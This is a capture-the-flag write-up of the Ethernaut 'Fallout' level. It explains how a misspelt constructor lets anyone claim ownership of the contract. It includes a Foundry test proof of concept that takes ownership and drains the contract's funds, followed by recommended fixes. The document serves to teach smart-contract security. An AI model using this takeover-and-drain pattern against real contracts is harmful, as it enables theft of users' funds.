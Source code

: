 # Level 2 - Fallout

## Objectives

- claim ownership of the contract

## Contract Overview

The `Fallout` contract works like a bank. It allows users (allocators) to
allocate ether into their separate balances.

- User can deposit money via `allocate()` function.
  - Their allocation will be saved in the `allocations` mapping.

```solidity
  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }
```

- Users can withdraw the money at any time via the `sendAllocation()` function
  by specifying themselves as the beneficiary in the function parameter.
- Users can also send their allocations to other allocators (they need to be
  present in the mapping) via the same `sendAllocation()` function.

  ```solidity
  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }
  ```

- The owner of the `Fallout` contract can withdraw all of the gathered funds at
  any time via the `collectAllocations()` function.
  ```solidity
  function collectAllocations() public onlyOwner {
  msg.sender.transfer(address(this).balance);
  }
  ```
- User can check the current balance of any allocator via the `allocatorBalance()` function.
  ```solidity
  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
  ```

## Finding the weak spots

The method has a comment that mentions that it's the contructor. Constructor methods run only right after the contract is deployed and they're commonly used to initialize the contract's state, like assigning an owner in this case. Constructors are declared using the constructor keyword or a function with the same name as the contract, in this case `Fallout`.

This contract is using solidity `^0.6.0` where construct should have the same name as name of contract so it should be named `Fallout()` but we have a misspelt here because what looks like the constructor is just a misspelt function `Fal1out` that can be called by anyone to claim ownership.

In other words the contract does not use the `constructor()` function, but instead a publicly accessible function named Fal1out(). Any account that sends some Ether to this function will be set as the new owner of the contract.

```solidity
  /* constructor */
  function Fal1out() public payable { // <-- this line over here
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```

## Potential attack scenario (hypothesis)

Attacker can call the faulty constructor and claim ownership of the contract. He can then withdraw all the funds.

## Plan of the attack

1. Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
2. Attacker as the owner can withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/02-Fallout.t.sol))

```solidity
        // Attacker can call the `Fal1out()` function which will set him as the owner of the `Fallout` contract.
        emit log_string("Calling Fal1out() function");
        falloutContract.Fal1out{value: 1}();

        emit log_named_address(
            "New owner of the contract: ",
            falloutContract.owner()
        );

        // Attacker as owner can withdraw all the funds
        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(falloutContract).balance
        );

        emit log_string("Calling collectAllocations() function");
        falloutContract.collectAllocations();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(falloutContract).balance
        );

        // Test assertion
        assertEq(falloutContract.owner(), attacker);

        assertEq(address(falloutContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallout.png)

## Recommendations

1. \[CRITICAL\] The constructor of the `Fallout` contract should be fixed. Here
   is an example fix:

```solidity
constructor () public payable {
	owner = msg.sender;
	allocations[owner] = msg.value;
}
```

2. The emission of events should be added to the critical contract functions
   that modify the state of the contract. This will allow for better
   communication with off-chain components. It will also provide users with a
   better sense of what is happening inside the contract.
3. The use of OpenZeppelin TimelockController is recommended on
   `collectAllocations()` function to provide a better user experience and
   increase safety.

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/2.-fallout-typo-in-constructor

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)

```

```
